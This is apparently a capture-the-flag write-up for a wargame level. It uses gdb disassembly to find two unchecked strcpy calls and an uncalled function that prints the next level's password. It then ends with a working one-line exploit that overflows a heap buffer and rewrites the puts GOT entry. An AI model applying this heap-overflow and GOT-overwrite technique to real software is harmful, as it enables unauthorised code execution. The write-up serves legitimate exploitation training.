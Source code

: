# Level7

First step - testing the program

	$ ./level7
	Segmentation fault (core dumped)
	$ ./level7 coucou
	Segmentation fault (core dumped)
	$ ./level7 coucou coucou
	~~
	$ ./level7 coucou coucou coucou
	~~

Hm ok

Start in GDB

	gdb-peda$ pdisas main
	Dump of assembler code for function main:
	   0x08048521 <+0>:		push   ebp
	   0x08048522 <+1>:		mov    ebp,esp
	   0x08048524 <+3>:		and    esp,0xfffffff0
	   0x08048527 <+6>:		sub    esp,0x20
	   0x0804852a <+9>:		mov    DWORD PTR [esp],0x8
	   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
	   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
	   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
	   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
	   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
	   0x08048550 <+47>:	mov    edx,eax
	   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx
	   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
	   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
	   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax
	   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]
	   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2
	   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
	   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
	   0x0804857f <+94>:	mov    edx,eax
	   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
	   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
	   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x0804858b <+106>:	add    eax,0x4
	   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]
	   0x08048590 <+111>:	mov    edx,eax
	   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
	   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
	   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
	   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
	   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x080485a8 <+135>:	add    eax,0x8
	   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
	   0x080485ad <+140>:	mov    edx,eax
	   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
	   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
	   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
	   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
	   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
	   0x080485c2 <+161>:	mov    edx,0x80486e9
	   0x080485c7 <+166>:	mov    eax,0x80486eb
	   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
	   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
	   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
	   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
	   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
	   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
	   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
	   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
	   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
	   0x080485fc <+219>:	mov    eax,0x0
	   0x08048601 <+224>:	leave
	   0x08048602 <+225>:	ret
	End of assembler dump.

Many interesting things here. 2 "strcpy" call. 1 fopen call. 1 fgets call

See the fopen parameters

	0x080485c2 <+161>:	mov    edx,0x80486e9
	0x080485c7 <+166>:	mov    eax,0x80486eb
	0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
	0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
	0x080485d3 <+178>:	call   0x8048430 <fopen@plt>

	(gdb-peda)$ x/s 0x80486e9
	0x80486e9:	"r"
	(gdb-peda)$ x/s 0x80486eb
	0x80486eb:	"/home/user/level8/.pass"

It's an open on the file we need

List all the functions

	gdb-peda$ info function
	All defined functions:

	Non-debugging symbols:
	0x0804836c  _init
	0x080483b0  printf@plt
	0x080483c0  fgets@plt
	0x080483d0  time@plt
	0x080483e0  strcpy@plt
	0x080483f0  malloc@plt
	0x08048400  puts@plt
	0x08048410  __gmon_start__@plt
	0x08048420  __libc_start_main@plt
	0x08048430  fopen@plt
	0x08048440  _start
	0x08048470  __do_global_dtors_aux
	0x080484d0  frame_dummy
	0x080484f4  m
	0x08048521  main
	0x08048610  __libc_csu_init
	0x08048680  __libc_csu_fini
	0x08048682  __i686.get_pc_thunk.bx
	0x08048690  __do_global_ctors_aux
	0x080486bc  _fini

There is a non-called "m" function

	(gdb-peda)$ pdisas m
	Dump of assembler code for function m:
	   0x080484f4 <+0>:		push   ebp
	   0x080484f5 <+1>:		mov    ebp,esp
	   0x080484f7 <+3>:		sub    esp,0x18
	   0x080484fa <+6>:		mov    DWORD PTR [esp],0x0
	   0x08048501 <+13>:	call   0x80483d0 <time@plt>
	   0x08048506 <+18>:	mov    edx,0x80486e0
	   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
	   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
	   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
	   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
	   0x0804851f <+43>:	leave
	   0x08048520 <+44>:	ret
	End of assembler dump.

Printf the time and a global variable "0x8049960", the name is "c"

fgets put the result of the fopen on a global string "c", the same of the printf

We need to read this global variable by calling the function m

We can overwrite the puts call by "m" in the GOT using the strcpy overflow

*********************************

Get the address of puts in the GOT

(gdb)$ info function puts
All functions matching regular expression "puts":

	Non-debugging symbols:
	0x08048400  puts@plt

(gdb)$ x/i 0x08048400
	0x8048400 <puts@plt>:	jmp    DWORD PTR ds:0x8049928

The address is "0x08049928"

	(gdb-peda)$ info function m
	All functions matching regular expression "m":

	Non-debugging symbols:
	0x080483d0  time@plt
	0x080483f0  malloc@plt
	0x08048410  __gmon_start__@plt
	0x08048420  __libc_start_main@plt
	0x080484d0  frame_dummy
	0x080484f4  m
	0x08048521  main

The address is "0x080484f4"

Get the offset of the first strcpy overflow, with my python scripts

	(gdb) r 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
	Starting program: /home/user/level7/level7 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'

	Program received signal SIGSEGV, Segmentation fault.
	0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6

EIP was not overwritten, check all registers

	(gdb) i r
	eax            0x46464646	1179010630
	ecx            0x0	0
	edx            0x46464646	1179010630
	ebx            0xb7fd0ff4	-1208152076
	esp            0xbffff54c	0xbffff54c
	ebp            0xbffff578	0xbffff578
	esi            0x0	0
	edi            0x0	0
	eip            0xb7eb8aa8	0xb7eb8aa8
	eflags         0x210282	[ SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

EAX and EDX was overwritten, get the offset

	./get_offset.py 46
	F => offset = 20

The offset is 20

With the first argument overflow, we can inject the puts GOT address on the second argument address

argv[1] = 20, if we inject more, we replace the argv[2] address, with the puts GOT address in this case

Finaly, in the second argument, just fill the puts GOT address with the address we want! The address of m

	argv[1] = "a" * 20 + "puts GOT addr"
	argv[2] -> puts GOT addr = "m addr"

	./level7 $(python -c 'print "a"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
